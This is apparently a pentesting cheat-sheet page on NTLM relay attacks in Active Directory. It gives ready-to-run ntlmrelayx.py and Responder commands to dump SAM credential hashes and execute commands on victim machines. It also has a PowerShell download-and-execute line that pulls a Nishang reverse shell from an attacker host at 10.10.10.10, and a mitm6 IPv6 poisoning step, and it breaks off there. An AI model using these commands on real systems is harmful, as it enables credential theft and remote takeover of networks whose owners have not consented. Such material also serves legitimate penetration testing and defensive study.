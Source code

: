 Create a file named `targets.txt`, include the IPs that we want to compromise.

Use the following commands with the `ntlmrelayx.py` y `responder.py` programs: 

```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

```bash
python3 Responder.py -I eth0 -rdw
```

In case that a user has `Administrator` privileges in a machine of the AD and acceses a shared resource that is not available, we can dump the `SAM` of that machine.

As it fails to validate the legitimacy of the origin, the `ntlmrelayx.py` program intercepts the connection that is looking for an invalid network resource. In case there is a user who is an `Administrator` of the `target` machine, `ntlmrelayx.py` will redirect the flow of that authentication to the victim machine, which will allow us to dump the `SAM` of the victim machine.

#### Command Execution

You can also execute commands in the target machine, using the same method but changing some arguments in `ntlmrelayx.py`. We will use the following command to perfom the attack:

```bash
ntlmrelayx.py -tf targets.txt -smb2support -c 'whoami'
```

```bash
python3 Responder.py -I eth0 -rdw
```

#### Reverse Shell

In this case, if we want to access to the machine, we can send the reverse shell from `nishang/Shells/Invoke-PowershellTCP.ps1`. First, we have to modify the reverse shell adding the following line to the end of the file: `Invoke-PoweshellTCP -Reverse -IPAddress 10.10.10.10 -Port 443`. This will allow us to load the module and run it at the same time. The, we will be listening for a connection with `nc -nlvp 443` and will share the file with `python3 -m http.server`. Last, we will execute the following commands:

```bash
ntlmrelayx.py -tf targets.txt -smb2support -c 'powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.10.10:8000/Invoke-PowershellTCP.ps1')'
```

```bash
python3 Responder.py -I eth0 -rdw
```

We will recieve a connection from the reverse shell in the port that we are listening.

#### IPv6

The last attack can be dome in IPv6 as well but with other tools. First we will use the `mitm6` to poison the network traffic:

```bash
mitm6 -d domain.local
```
